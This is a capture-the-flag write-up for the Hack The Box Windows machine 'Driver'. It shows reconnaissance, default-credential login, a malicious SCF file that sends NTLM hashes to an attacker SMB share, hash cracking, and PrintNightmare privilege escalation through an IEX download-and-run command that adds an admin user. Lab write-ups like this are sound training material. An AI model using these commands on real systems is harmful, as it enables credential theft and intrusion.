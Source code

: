 ```yaml
---
layout: single
title: Driver - Hack The Box
excerpt: "Driver is an easy Windows machine that focuses on printer exploitation. Enumeration of the machine reveals that a web server is listening on port 80, along with SMB on port 445 and WinRM on port 5985. Navigation to the website reveals that it&amp;amp;amp;#039;s protected using basic HTTP authentication. While trying common credentials the `admin:admin` credential is accepted and we are able to visit the webpage. The webpage provides a feature to upload printer firmwares on an SMB share for a remote team to test and verify. Uploading a Shell Command File that contains a command to fetch a remote file from our local machine, leads to the NTLM hash of the user `tony` relayed back to us. Cracking the captured hash to retrieve a plaintext password we are able login as `tony`, using WinRM. Then, switching over to a meterpreter session it is discovered that the machine is vulnerable to a local privilege exploit that abuses a specific printer driver that is present on the remote machine. Using the exploit we can get a session as `NT AUTHORITY\\SYSTEM`."
date: 2025-05-13
classes: wide
header:
  teaser: /img2/driver.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - Password Guessing
  - SCF Malicious File
  - Print Spooler Local Privilege Escalation (PrintNightmare) [CVE-2021-1675]
---
```


## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.106
```

![](/img2/Pasted%20image%2020250513093712.png)

- Version and vulnerability scan

```bash
nmap -sCV -p135,445 -vvv 10.10.11.106
```

![](/img2/Pasted%20image%2020250513094009.png)

## Exploitation

- Default password

![](/img2/Pasted%20image%2020250513094105.png)

- Malicious scf file

```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

![](/img2/Pasted%20image%2020250513102137.png)

```bash
impacket-smbserver smbFolder -smb $(pwd) -smb2support
```

![](/img2/Pasted%20image%2020250513102233.png)

```bash
john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250513102407.png)

- Conect with EvilWinRM

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

## Post-exploitation

- Run enumeration script WinPEAS

```bash
./winPEASx64.exe
```

![](/img2/Pasted%20image%2020250513130643.png)

- CVE-2021-1675 - PrintNightmare

```bash
wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/refs/heads/main/CVE-2021-1675.ps1
```

```bash
python3 -m http.server
```

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2:8000/exploit.ps1')
```

```powershell
Invoke-Nightmare -DriverName "Xerox" -NewUser "pyuser" -NewPassword "pyuser" 
```

![](/img2/Pasted%20image%2020250513133824.png)

```bash
evil-winrm -i 10.10.11.106 -u pyuser -p pyuser
```

![](/img2/Pasted%20image%2020250513134132.png)